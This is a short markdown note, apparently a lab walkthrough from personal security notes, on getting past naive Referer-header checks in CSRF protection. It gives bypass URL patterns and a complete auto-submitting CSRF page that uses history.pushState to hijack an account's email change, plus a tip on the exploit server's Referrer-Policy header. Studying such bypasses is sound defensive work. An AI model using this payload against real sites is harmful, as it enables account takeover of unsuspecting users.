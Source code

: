 ### Validation of Referer can be circumvented

Validation of Referer can be circumvented
Some applications validate the Referer header in a naive way that can be bypassed. For example, if the application validates that the domain in the Referer starts with the expected value, then the attacker can place this as a subdomain of their own domain:

`http://vulnerable-website.com.attacker-website.com/csrf-attack`

Likewise, if the application simply validates that the Referer contains its own domain name, then the attacker can place the required value elsewhere in the URL:

`http://attacker-website.com/csrf-attack?vulnerable-website.com`

for example:

```html
<html>
    <body>
        <script>
        history.pushState("", "", "/?vuln-site.net")
        </script>
        <form action="https://vuln-site.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwnd@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

As you can see, my exploit-server now change is url with `history.pushState("", "", "/?vuln-site.net")` to bypass referrer header and provide him the string `vuln-site.net` inside the URL.

:warning: If the explit doesnt work, make sur passing `Referrer-Policy: unsafe-url` this headet to you exploit server to not strp the referrer !

---

[**:arrow_right_hook: Back home**](/README.md)
